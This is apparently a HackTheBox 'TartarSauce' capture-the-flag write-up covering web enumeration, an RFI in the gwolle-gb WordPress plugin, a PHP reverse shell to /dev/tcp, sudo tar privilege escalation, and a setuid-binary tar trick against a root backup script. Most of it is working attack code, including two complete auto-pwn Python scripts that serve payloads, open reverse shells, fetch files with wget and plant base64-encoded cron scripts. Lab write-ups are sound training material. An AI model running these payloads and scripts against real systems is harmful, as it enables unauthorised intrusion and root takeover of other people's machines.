

This box was an Medium box from HackTheBox. It's OS is Linux. The entry point is with a web vulnerability which allow us to execute php scripts in a wordpress plugin. After that you get a www-data shell, then with tar you can escalate to onuma user. With that you see a script running as root, which we can abuse the permisions of it with the tar command. Then you get root!

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.88
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


We see the /robots.txt


When we try to access the /webservices we got a Forbidden


So, we try to enumerate this folder to see if we are able to get some page

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.88/webservices
```


And we found a /wp folder


We see on the source code `tartarsauce.htb`


So we add it on our **/etc/hosts** file


And now the site looks clear


Seems to be a simple wordpress website

### Wordpress Plugin

We could run wpscan to find plugins, but I prefer to make it manually with wfuzz

```sh
wfuzz -c -t 500 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

And we found some, we search for exploit for this `gwolle` and found a RFI


We read it and see how to attack it

```
...
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.3/
...
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
....
```

And we see that it reach us


And it try to get **/wp-load.php** file, so if we put a malicious php file with this name, it'll trigger it and give us a reverse shell!

# Reverse Shell - www-data

And we simply made it

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.16.3/1234 0>&1'");
```


Now let's easily automate it.

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_pwn_tartarsauce.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Exploit - TartarSauce - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.write(str.encode("/usr/bin/script -qc /bin/bash /dev/null \n"))
    t.interact()

# Mount the php file
def createPayload(lhost,lport):
    print("[+] Let's mount the php file !! [+]")
    payload = "<?php\n"
    payload += "exec(\"/bin/bash -c 'bash -i > /dev/tcp/%s/%s 0>&1'\");" %(lhost,lport)
    f = open("wp-load.php", "w")
    f.write(payload)
    f.close()

# Triger Reverse Shell
def TriggerReverse(rhost,lhost):
    print("[+] Just Trigger It !!! [+]")
    url = "http://%s:80/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://%s/" %(rhost,lhost)
    r.get(url,proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create Payload
    createPayload(lhost,lport)
    # Trigger it
    TriggerReverse(rhost,lhost)
    
if __name__ == '__main__':
    main()
```

Let's begin our privilege escalation

# www-data --> onuma

We see that the user www-data can run tar as onuma without password


We see on [gtfobins](https://gtfobins.github.io/gtfobins/tar/) what we can do with that

```sh
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


And we become onuma


Let's get root

# onuma --> root

We run [linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh) to see what we can do


We see a file called backuper being executed as root


**/usr/sbin/backuperer**

We see what is this file

```sh
#!/bin/bash      
                                                    
#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2
# ONUMA Dev auto backup program                                                                          
# This tool will keep our webapp backed up incase another skiddie defaces us again.                                                                                                                                
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------
                                                    
# Set Vars Here                               
basedir=/var/www/html                         
bkpdir=/var/backups      
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

All the explanation here I got from [0xdf](https://0xdf.gitlab.io/2018/10/21/htb-tartarsauce-part-2-backuperer-follow-up.html#root-shell) and [ippsec](https://www.youtube.com/watch?v=9MeBiP637ZA) writeups. So check them for more explanations.

The whole problem relay in the fact of the permissions of the tar decompression. If we put and file in a compressed file, owned by root (not root, but the user id 0, which is root). When the system decompress it, as root, it will keep the permission of it. And will let the root as the owner of this file

But when we can abuse this information?

The backuepre file makes the extraction `/bin/tar -zxvf $tmpfile -C $check`, and how this is done by root. It will keep the permisions.

We create the file in our kali system.

First the suid Shell file

```c
int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}
```

```sh
gcc -m32 -o file file.c
```


Now the tar.gz file

```sh
mkdir -p  var/www/html
cp file var/www/html/
chmod 6555 var/www/html/file
ls -la var/www/html/
```


Now, we create the tar.gz file which we will send to the server

```sh
tar zcvf suid.tar.gz var --owner=root --group=root
```


We download it to the server


With `systemctl list-timers` we see when the file will appear in the /tmp folder


We wait the file appears, and then we copy our tar.gz file to it


Wait for 30 seconds and then go into check, find the shell, and run it:


# Auto Pwn Root

Now, we did the auto pwn for the root


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Exploit - TartarSauce - HackTheBox

import argparse
import requests
import sys
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
from pwn import *
import subprocess

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def HandlerOnuma(lport,lhost):
    shell = listen(lport).wait_for_connection()
    shell.send(b"sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh")
    shell.send(b"\n")
    shell.send(b"wget %s/suid.tar.gz -O /var/tmp/suid.tar.gz" %lhost.encode())
    shell.send(b"\n")
    shell.send(b"echo IyEvYmluL3NoCgp4PSdscyAtYSAvdmFyL3RtcC8gfGdyZXAgIl5cLiIgfCB3YyAtbCcKeT0kKGV2YWwgIiR4IikKCndoaWxlIFsgJHkgLWVxIDIgXQpkbwp5PSQoZXZhbCAiJHgiKQpkb25lCgpmaWxlPSQobHMgLWEgL3Zhci90bXAvIHxncmVwICJeXC4iIHwgdGFpbCAtbjEpCmNwIC92YXIvdG1wL3N1aWQudGFyLmd6IC92YXIvdG1wLyRmaWxlCgpzbGVlcCAzNQoKY3JvbnRhYiAtcgoKL3Zhci90bXAvY2hlY2svdmFyL3d3dy9odG1sL2ZpbGUK | base64 -d > /var/tmp/script.sh")
    shell.send(b"\n")
    shell.send(b"chmod +x /var/tmp/script.sh")
    shell.send(b"\n")
    shell.send(b"echo KiAqICogKiAqIC9iaW4vc2ggL3Zhci90bXAvc2NyaXB0LnNoCg== | base64 -d > /var/tmp/repeater")
    shell.send(b"\n")
    shell.send(b"crontab /var/tmp/repeater")
    shell.send(b"\n")
    
# Root Handler
def HandlerRoot(lport):
    lport = int(lport) + 1
    root_shell = listen(lport).wait_for_connection()
    root_shell.interactive()

# Mount the php file
def createPayload(lhost,lport):
    print("[+] Let's mount the php file !! [+]")
    payload = "<?php\n"
    payload += "exec(\"/bin/bash -c 'sleep 5 && bash -i > /dev/tcp/%s/%s 0>&1'\");" %(lhost,lport)
    f = open("wp-load.php", "w")
    f.write(payload)
    f.close()
    print("[+] Done ! [+]")
    
    print("[+] Now, let's mount the suid file !!! [+]")
    lport = int(lport) + 1
    payload = "int main(void){\n"
    payload += "  setresuid(0, 0, 0);\n"
    payload += "  system(\"/bin/bash -c 'bash -i > /dev/tcp/%s/%s 0>&1'\");\n" %(lhost,lport)
    payload += "}"
    f = open("file.c", "w")
    f.write(payload)
    f.close()
    os.system("gcc -m32 -o /tmp/file file.c 2>/dev/null")
    print("[+] Done ! [+]")
    
    print("[+] Let's mount the tar.gz file !! [+]")
    folder = subprocess.run(['pwd'], stdout=subprocess.PIPE).stdout.decode('utf-8').strip()
    os.system("mkdir -p /tmp/var/www/html")
    os.system("cp /tmp/file /tmp/var/www/html/")
    os.system("chmod 6555 /tmp/var/www/html/file")
    os.system("cd /tmp && tar zcvf %s/suid.tar.gz var --owner=root --group=root > /dev/null" %folder)
    print("[+] Done ! [+]")

# Triger Reverse Shell
def TriggerReverse(rhost,lhost,lport):
    print("[+] Just Trigger It !!! [+]")
    url = "http://%s:80/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://%s/" %(rhost,lhost)
    try:
        r.get(url,timeout=0.0000000001, proxies=proxies)
    except requests.exceptions.ReadTimeout: 
        pass
    # Call the onuma handler
    HandlerOnuma(lport,lhost)
    # Call the root handler
    HandlerRoot(lport)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Create Payload
    createPayload(lhost,lport)
    # Trigger it
    TriggerReverse(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```